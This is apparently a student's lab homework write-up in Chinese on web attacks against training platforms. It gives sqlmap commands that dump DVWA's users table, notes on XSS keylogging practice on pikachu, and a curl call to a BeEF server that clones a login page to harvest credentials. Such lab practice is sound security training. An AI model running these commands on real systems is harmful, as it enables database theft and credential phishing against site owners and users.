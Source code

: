 1. 使用 sqlmap 工具完成对 DVWA 数据库的注入过程，要求按照库、表、列、内容的顺序进行注入。
   
   1. **库**
      python sqlmap.py -r 1.txt --level 3 --batch -p id --dbs
      ![f884ef2e-6b09-4859-82b2-40213ca0296a](file:///C:/Users/m1521/Pictures/Typedown/f884ef2e-6b09-4859-82b2-40213ca0296a.png)
   
   2. **表**
      python sqlmap.py -r 1.txt --level 3 --batch -p id --D dvwa --tables
      ![a2e63615-8a6e-4b1c-b121-c184a5de81e4](file:///C:/Users/m1521/Pictures/Typedown/a2e63615-8a6e-4b1c-b121-c184a5de81e4.png)
   
   3. **列**
      python sqlmap.py -r 1.txt --level 3 --batch -p id -D dvwa -T users --columns
      ![03533d2b-f5db-4e97-87d4-93cd6d6de379](file:///C:/Users/m1521/Pictures/Typedown/03533d2b-f5db-4e97-87d4-93cd6d6de379.png)
   
   4. **内容**
      python sqlmap.py -r 1.txt --level 3 --batch -p id -D dvwa -T users -C user,user_id --dump
      ![935a2f74-8a05-45f9-bd0a-851ba0ff2d9c](file:///C:/Users/m1521/Pictures/Typedown/935a2f74-8a05-45f9-bd0a-851ba0ff2d9c.png)

2. 练习课件上给出的 SQL 注入绕过方式。

3. XSS
* 使用 pikachu 平台练习 XSS 键盘记录、前台 XSS 盲打攻击获取 cookie；
  * XSS键盘记录
  * ![07d9aaf8-1a08-43a4-8072-a5d7ccbc8c29](file:///C:/Users/m1521/Pictures/Typedown/07d9aaf8-1a08-43a4-8072-a5d7ccbc8c29.png)
  * XSS键盘记录
  * 不会获取其cookie
* 使用 beef 制作钓鱼页面，克隆任意站点的登录页面并获取用户登录的账号密码。

curl -H "Content-Type: application/json; charset=UTF-8" -d '{"url":"http://192.168.79.131:80/vul/xss/xsspost/post_login.php","mount":"/pikachu_geektime"}' -X POST http://192.168.79.135:3000/api/seng/clone_page?token=9f8ce950e2246046efb16e3de7d1e170c615bd27

![4ef3f547-c4c1-4477-bbed-6c7710c62dd5](file:///C:/Users/m1521/Pictures/Typedown/4ef3f547-c4c1-4477-bbed-6c7710c62dd5.png)

![ec433495-a47a-4aee-a544-2dcfae719029](file:///C:/Users/m1521/Pictures/Typedown/ec433495-a47a-4aee-a544-2dcfae719029.png)
